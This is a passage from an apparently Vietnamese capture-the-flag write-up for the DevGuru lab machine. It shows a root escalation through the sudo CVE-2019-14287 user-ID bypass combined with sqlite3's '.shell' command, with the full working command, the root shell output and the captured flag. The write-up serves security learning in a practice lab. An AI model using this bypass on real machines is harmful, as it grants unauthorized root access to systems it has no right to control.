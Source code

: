Với thông tin ở trên, ta có thể thấy thằng frank có thể chạy file sqlite3 kia nhưng không được phép chạy dưới quyền root.

```shell
frank@devguru:/home/frank$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

```

Thật không may cho Devguru, với phiên bản của sudo v1.8.28, có mã [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287){:target="\_blank"}, cho phép kẻ tấn công có thể chạy dưới ALL sudoer nhưng bypass blacklists, bỏ qua cấu hình !root ở trên bằng cách sudo với craft user id `\#$((0xffffffff))`.

```shell
frank@devguru:/home/frank$ sudo -u#$((0xffffffff)) sqlite3 /dev/null '.shell /bin/bash'
root@devguru:/home/frank# id
uid=0(root) gid=1000(frank) groups=1000(frank)
```

Giải thích một chút, ở đây `0xffffffff` tương đương với số nguyên không dấu 4294967295 ~ 2^32-1. Đây là giá trị lớn nhất mà một số nguyên 32-bit không dấu có thể biểu diễn được, thường được sử dụng trong các ngôn ngữ lập trình như C/C++, ... Khi kết hợp với 1 số cấu hình sai trong tệp sudoers, nó có thể cho phép user có uid là 4294967295 (giá trị của 0xffffffff) leo lên quyền root.

```shell
sqlite> .help
...
.shell CMD ARGS...     Run CMD ARGS... in a system shell
...
```

=> Tóm lại, `sudo -u#$((0xffffffff)) sqlite3 /dev/null '.shell /bin/bash'` cho phép chạy một shell mới dưới quyền root.

```shell
root@devguru:/home/frank# cd /root
root@devguru:/root# ls
msg.txt  root.txt
root@devguru:/root# cat msg.txt

           Congrats on rooting DevGuru!
  Contact me via Twitter @zayotic to give feedback!


root@devguru:/root# cat root.txt
96440606fb88aa7497cde5a8e68daf8f
```
